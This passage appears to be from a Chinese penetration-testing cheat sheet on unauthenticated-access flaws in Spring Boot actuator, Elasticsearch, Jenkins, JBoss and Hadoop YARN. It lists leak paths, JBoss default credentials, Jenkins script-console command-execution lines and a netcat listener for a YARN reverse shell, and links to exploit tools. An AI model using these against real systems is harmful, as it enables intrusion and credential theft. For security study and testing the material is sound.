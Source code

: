 ```
/trace 提供基本的HTTP请求跟踪信息(时间戳、HTTP头等)获取用户认证字段信息,，比如如下站点存在 actuator 配置不当漏洞，在其 trace 路径下，除了记录有基本的 HTTP 请求信息（时间戳、HTTP 头等），还有用户 token、cookie 字段
/heapdump  #泄露站点内存信息,很多时候会包含用户的账户和密码
```

漏洞利用：
[SpringBootVulExploit](https://github.com/LandGrey/SpringBootVulExploit)


## 0x06 elastic search未授权访问
常见泄露路径
```
/_nodes #查看节点数据
/_cat/indices #索引
_cat/indices
/_plugin/head
/_nodes/
/_status
/_search?pretty
```

漏洞利用工具：
[es-client](https://www.yuque.com/baozhiyige-tewwf/ygxv4r/ckis52alep5g7mgv)

## 0x07 jenkins未授权访问
常见泄露路径：
```
/manage
/script 
```

若script存在未授权访问可命令执行：
```
查看当前用户
println "whoami".execute().text
查看IP
printlb "ifconfig -a".execute().text
```

## 0x08 Jboss未授权访问
漏洞成因：Jboss默认访问`jmx-console`不需要输入密码，或默认密码`admin/admin`

漏洞利用工具： 
[jexboss](
https://github.com/joaomatosf/jexboss)

[干货｜最全的Jboss漏洞复现](https://cloud.tencent.com/developer/article/1944144)


## 0x09 hadoop YARN resourcemanager未授权访问漏洞

漏洞利用工具：
* msf的hadoop-unauth-exec模块
* [yarn-exp.py脚本](./yarn-exp.py) + 本地监听`nc -lvvp 9978`
* [Hadoop YARN 资源管理系统 REST API未授权访问](https://blog.csdn.net/weixin_43486390/article/details/111319422)
